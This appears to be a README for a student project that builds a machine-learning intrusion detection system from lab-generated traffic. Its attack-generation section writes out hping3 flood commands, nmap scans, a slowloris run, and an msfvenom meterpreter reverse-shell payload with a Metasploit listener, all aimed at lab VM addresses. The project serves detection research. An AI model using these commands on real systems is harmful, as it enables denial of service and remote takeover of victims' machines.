 # ML-IDS


Steps :- 
1. Project Planning & Objective Definition

-> Identified the need for a smarter, ML-based IDS.

-> Defined project aim: Detect various attacks in real time using machine learning.

2. Environment Setup

-> Set up host machine and two virtual machines (Attacker: Kali, Victim: Ubuntu).

-> Installed tools: Wireshark, Metasploit, Nmap, Scapy, CICFlowMeter, Flask, Python, joblib.

3. Attack Type Selection

-> We have chossen multiple attacks for the dataset | we have chosen these attacks on the basic of what type of protocols it uses also which port it targets
-> run these all these commands on attack machine and used the command provided at last to capture the attack traffic after performing the attack
.
.
.
.
-> SYN Flood
sudo hping3 -S -p 80 --flood 192.168.100.4



   

-> UDP Flood
sudo hping3 --udp -p 53 --flood 192.168.100.4



  

-> ICMP Flood
sudo hping3 -1 --flood 192.168.100.4



  

->  Nmap Scans
🔸 Normal TCP Connect Scan -> nmap -sT 192.168.100.4
🔸 Aggressive Scan with OS and Version Detection -> nmap -A -T4 192.168.100.4




-> FIN Scan
  sudo nmap -sF 192.168.100.4


  

-> NULL Scan
  sudo nmap -sN 192.168.100.4




  

-> Xmas Scan
  sudo nmap -sX 192.168.100.4




  

-> Protocol Obfuscation Attack (Slowloris attack performed using Python)

  intallation of slowloris
    -> git clone https://github.com/gkbrk/slowloris
        cd slowloris

  run the attack: 
  python3 slowloris.py 192.168.100.4






-> Reverse Shell (It is a Metasploit Payload)
   
payload creation: 

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.5 LPORT=4444 -f elf >         shell.elf
- chmod +x shell.elf

Starting Metasploit Listener: 

- msfconsole

{run this whole in one time}
- use exploit/multi/handler
  set PAYLOAD linux/x86/meterpreter/reverse_tcp
  set LHOST 192.168.100.5
  set LPORT 4444
  exploit

- Now Execute payload on victim

  ./shell.elf








-> Normal Traffic Generation

  - Basic Web Browsing
  -  File Transfer with Netcat :
        1. on victim : nc -l -p 1234 > received_file.txt
        2. on attacker : nc 192.168.100.4 1234 < sample_file.txt






-> HTTP Requests (run Together)
   - curl -X GET http://192.168.100.4/api/test
     curl -X POST -d "data=test" http://192.168.100.4/api/post






  
this command i have used in victim machine every attack time this helps me capturuing each and every network traffic capture and saves it with .pcap file

- sudo tcpdump -i eth0 -w attack_name_capture.pcap




4. Packet Capture

-> Generated traffic using tools like Metasploit, Nmap, Scapy.

-> Captured packets using Wireshark and tcpdump into .pcap files.

5. Flow Conversion

-> Converted .pcap files to flow-based .csv using CICFlowMeter.

6. Labeling and Combining Dataset

-> Labeled each flow file with its corresponding attack or "normal".

-> Combined all labeled .csv files into a single dataset (~900,000+ rows).

7. Data Preprocessing

-> Dropped irrelevant columns (e.g., IPs, timestamps).

-> Normalized features.

-> Encoded categorical features if needed.

8. Model Selection and Training

-> Tried multiple models: Random Forest, SVM, Logistic Regression.

-> Finalized Random Forest Classifier based on best accuracy.

9. Model Evaluation

-> Split data into training and test sets.

-> Evaluated using accuracy, precision, recall, F1-score.

-> Achieved ~98% accuracy.

10. Model Saving

-> Exported the trained model as best_ids_model.pkl using joblib.

11. Flask Web Application Development

-> Built a simple web interface using Flask and Bootstrap.

-> Created input form to enter flow features manually.

12. Model Integration with Flask

-> Loaded the trained model in Flask backend.

-> Created /predict route to classify input and return prediction.

13. Testing the Web App

-> Ran the Flask server.

-> Entered sample flow inputs into the web form.

-> Validated predictions (Normal/Attack Type).

14. Real-Time Simulation

-> Simulated new attacks live.

-> Captured and converted flows.

-> Tested prediction by entering new flows in the web app.


